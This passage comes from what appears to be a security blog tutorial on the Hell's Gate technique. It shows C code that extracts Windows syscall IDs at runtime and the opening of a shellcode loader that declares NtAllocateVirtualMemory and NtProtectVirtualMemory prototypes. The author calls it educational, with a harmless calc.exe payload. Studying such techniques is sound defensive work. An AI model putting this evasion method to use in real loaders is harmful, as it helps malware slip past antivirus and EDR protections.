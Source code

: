 ```c

				printf("\n[+] Syscall Id: %x", syscallID);  // print Hex value

				break;

			 }

		}

		printf("\nAssembly: %p", *assembly);
		
		tick++;


	}

	return syscallID;

}
```
We define our 4 byte egg that we identified in Ghidra and then we iterate through the function data until we find our match. Because the egg precedes the actual syscall id, when the egg is found we just add **1 more byte - 0x1** and we have our **syscall id!**

And Boom! we finally have our **syscall id** that was dynamically extracted at runtime. Let's integrate this into a simple malware shellcode loader example to demonstrate it in action.

## Example:

*This is purely an educational example and will not bypass much of anything if attempting to run against AV or EDR products. It will be loading the msfvenom x64 calc.exe shellcode, which will get popped by damn near every Anti-Virus product on the planet. The full weaponization of this technique needs to be coupled with more evasion techniques. I hope to delve into more sophisticated techniques in future posts, so stay tuned...* 

Now that we have our Hell's Gate solution, let's integrate it into an example that uses syscalls to allocate some virtual memory, change the permissions of that memory to be writable, inject some shellcode into this allocated memory, and then jump to this location in memory to execute our shellcode.

**C++ Shellcode Loader Example:**
```c
// Hell's Gate ShellCode Loader Example

#define NT_SUCCESS(Status) ((NTSTATUS)(Status) >= 0)

extern "C" NTSTATUS NtAllocateVirtualMemory(HANDLE ProcessHandle,
                                            PVOID* BaseAddress,
                                            ULONG_PTR ZeroBits,
                                            PSIZE_T RegionSize,
                                            ULONG AllocationType,
                                            ULONG Protect

);

  
// Declare the prototype for the NtProtectVirtualMemory syscall function
extern "C" NTSTATUS NtProtectVirtualMemory(HANDLE ProcessHandle,
                                           PVOID *BaseAddress,
                                           PSIZE_T NumberOfBytesToProtect,
                                           ULONG NewAccessProtection,
                                           PULONG OldAccessProtection,
                                           int syscallID);

```